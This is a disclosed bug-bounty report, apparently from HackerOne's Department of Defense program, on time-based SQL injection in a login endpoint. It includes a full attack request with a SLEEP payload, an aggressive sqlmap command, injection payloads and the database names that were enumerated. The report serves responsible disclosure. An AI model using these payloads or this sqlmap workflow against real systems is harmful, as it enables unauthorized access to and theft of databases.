# time based SQL injection at [https://███] [HtUS]

## Report Details
- **Report ID**: 1627970
- **URL**: https://hackerone.com/reports/1627970
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-06T14:01:43.711Z
- **Disclosed**: 2022-09-14T21:10:48.278Z

## Reporter
- **Username**: malcolmx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,

##Summary

while doing test on [`www.█████`](http://www.████████/) I’ve found that the endpoint at `/olc/setlogin.php` is vulnerable with SQL injection vulnerability

##Vulnerable parameters 

- username
- password

##POC

- using time based to verify , submit the below request

```jsx
POST /olc/setlogin.php HTTP/1.1
Host: www.██████
Cookie: UsafNoticeConsent=1; PHPSESSID=5r61rj890ogju3dvb5ptup2mn1; session=expiry=1657062712923491
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://www.██████████
Referer: https://www.████/olc/sethomepage.html
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

██████████'%2b(select*from(select(sleep(5)))a)%2b'&█████████
```

- we can see that the response time will be `5`

{██████████]



- sqlmap run command

```jsx
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent  -u https://█████████ --data="████████&██████" -p username --dbms=mysql 
```

- if you got message `got a 302 redirect to '[https://www.█████:443/olc/sethomepage.html](https://www.████████/olc/sethomepage.html)'. Do you want to follow? [Y/n] n`

press `n` to not follow the redirection 

- we can se that our target parameter is vulnerable

```jsx
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 586 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-1559' OR 4924=4924 OR 'XiUq'='JgnT&██████████

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: █████' AND (SELECT 9612 FROM (SELECT(SLEEP(5)))xSGk) OR 'CPXv'='aouS&██████
---
[23:27:33] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:27:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:27:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/www.█████████'

[*] ending @ 23:27:34 /2022-07-05/
```

███

- add `--dbs` will back to us with the databases

```jsx
available databases [13]:
[] ███
[] ██████mobile
[] GET
[] information_schema
[] LEAM
[] leat
[] LEV
[] mysql
[] performance_schema
[] SET
[] test
[] testadmin
[*] testusers
```

## Impact

attacker is able to get the database

## Attachments
No attachments
